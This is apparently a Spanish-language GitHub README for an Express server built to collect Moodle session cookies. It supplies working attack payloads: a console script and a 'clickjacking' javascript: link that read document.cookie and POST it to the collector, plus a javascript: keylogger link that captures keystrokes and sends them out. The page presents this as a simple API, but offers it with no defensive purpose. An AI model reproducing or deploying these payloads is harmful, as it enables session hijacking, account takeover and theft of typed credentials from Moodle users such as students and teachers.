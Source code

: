# Proyecto API con Express

## Descripción

Este proyecto es una API simple creada con Express que permite recibir cookies desde el cliente. Utiliza CORS para permitir solicitudes desde diferentes orígenes y dotenv para gestionar variables de entorno.

## Características

- Endpoint GET para verificar que la API está funcionando.
- Endpoint POST para recibir una cookie (MoodleSession) y enviar una respuesta de éxito.

## Instalación

1. Clona el repositorio.
2. Navega al directorio del proyecto.
3. Ejecuta `npm install` para instalar las dependencias.
4. Configura las variables de entorno en un archivo `.env`.
5. Inicia el servidor con `node index.js` o `npm start`.

## Uso

- **GET /**: Devuelve un mensaje indicando que la API está funcionando.
- **POST /cookie**: Envía un JSON con la cookie `MoodleSession` y recibe una respuesta de éxito.

## Ejemplo de uso desde el navegador

Puedes probar la API utilizando el siguiente script en la consola del navegador:

```javascript
const getCookies = () => {
  return document.cookie.split(";");
};

fetch("http://localhost:8000/cookie", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({ MoodleSession: getCookies() }),
});
```

## También puedes probar la API utilizando curl
```bash
curl -X POST http://localhost:8000/cookie -H "Content-Type: application/json" -d "{\"MoodleSession\":\"Cookie de ejemplo\"}"
```

## Clickjacking
```
<a href="javascript:eval('fetch(\'http://localhost:8000/cookie\', { method: \'POST\', headers: { \'Content-Type\': \'application/json\' }, body: JSON.stringify({ MoodleSession: document.cookie}) });')">Click aquí</a>
```

## Keylogger Script
```
<a href="javascript:eval(`const keyboardLogger = []; document.addEventListener('keydown', (event) => { if (event.key === ' ') { if (keyboardLogger.length > 0) { fetch('http://localhost:8000/keylogger', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ keyboardLogger: keyboardLogger.join('') }) }); keyboardLogger.length = 0; } } else { keyboardLogger.push(event.key); } });`);">Click aquí</a>
```

## Autor

**Iván L. Álvarez**  
- GitHub: [ivanlalvarez22](https://github.com/ivanlalvarez22)  
- Portafolio: [ivanalvarez-contacto.vercel.app](https://ivanalvarez-contacto.vercel.app/)
